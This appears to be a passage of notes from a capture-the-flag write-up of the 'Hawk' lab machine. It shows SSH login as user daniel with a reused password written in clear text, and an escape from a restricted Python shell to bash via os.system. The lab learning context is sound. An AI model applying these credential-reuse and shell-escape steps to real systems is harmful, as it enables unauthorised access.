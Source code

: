 # 17 - Daniel


# Linpeas.sh
![](vx_images/1913842608835.png)


# Password reuse
```bash
┌─[user@parrot]─[10.10.14.3]─[~/htb/hawk/www/chisel]
└──╼ $ ssh -l daniel 10.10.10.102
daniel@10.10.10.102's password: drupal4hawk
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)
...
Last login: Mon Jun 28 17:47:49 2021 from 10.10.14.3
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("/bin/bash -i")
daniel@hawk:~$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
daniel@hawk:~$ 
```
